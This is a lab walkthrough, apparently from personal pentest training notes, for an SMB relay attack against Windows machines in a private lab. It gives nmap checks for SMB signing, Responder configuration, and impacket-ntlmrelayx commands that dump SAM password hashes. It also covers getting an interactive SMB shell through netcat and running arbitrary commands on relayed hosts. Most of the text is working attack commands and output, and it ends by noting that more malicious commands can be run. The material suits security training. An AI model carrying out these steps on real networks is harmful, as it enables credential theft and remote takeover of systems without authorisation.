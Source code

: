 # VI. SMB Relay Attacks Lab

Make sure both Windows user machines are turned on.

In Kali, use the following command to run nmap with a script to check whether SMB signing is enabled or not:

```bash
nmap --script=smb2-security-mode.nse -p445 <WINDOWS IP> -Pn
```

`-Pn` is used to skip host discovery and treat all specified targets as online. This is useful when a normal nmap scan does not return any hosts.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap --script=smb2-security-mode.nse -p445 10.0.2.10 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-17 07:38 EDT
Nmap scan report for 10.0.2.10
Host is up (0.00098s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.24 seconds

┌──(kali㉿kali)-[~]
└─$ nmap --script=smb2-security-mode.nse -p445 10.0.2.11 -Pn   
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-17 07:37 EDT
Nmap scan report for 10.0.2.11
Host is up (0.00071s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```

Open a text editor, enter IP of the `FRANKY` and `USOPP` User machines and save as `targets.txt`

Next edit the responder file using:

```bash
  sudo nano /etc/responder/Responder.conf
```

Make the following changes, `SMB = Off` , `HTTP = Off` and save.

![SMB 1.png](VI%20SMB%20Relay%20Attacks%20Lab%209ab2956e38114b0aa98f7038ae5afff4/SMB_1.png)

Run responder with `sudo responder -I eth0 -dwPv`. Notice that HTTP Server and SMB Server are both off.

![SMB 2.png](VI%20SMB%20Relay%20Attacks%20Lab%209ab2956e38114b0aa98f7038ae5afff4/SMB_2.png)

Open a new terminal tab and run `ntlmrelayx.py -tf targets.txt -smb2support`. If [pimpmykali](https://github.com/Dewalt-arch/pimpmykali) is not installed. Then ntlmrelay can be run with `impacket-ntlmrelayx` followed by the tags and conditions i.e `sudo impacket-ntlmrelayx -tf targets.txt -smb2support`. Leave it running.

Login to the windows machine that has a single local administrator, login using those credentials and trigger an event like last time. Open explorer and enter the attacker machine (Kali) IP address in the search bar.

Finally, back in the ntlmrelay terminal, the SAM hashes for the Admin and Local admin accounts will be dumped. It’s a good idea to save these in a text file for later.

![SMB 3.png](VI%20SMB%20Relay%20Attacks%20Lab%209ab2956e38114b0aa98f7038ae5afff4/SMB_3.png)

There’s also the option of using the  `-i` tag to spawn an interactive shell when an event is triggered i.e `sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i`

Copy the IP and port number of the windows machine and use them to start a netcat listener to spawn a shell.

```bash
┌──(kali㉿kali)-[~]
└─$ nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
```

Another way to utilize this tool to run and execute commands with a relay attack. 

e.g `sudo impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"` .

This is just a simple example, but this can be used to execute more malicious commands if need be.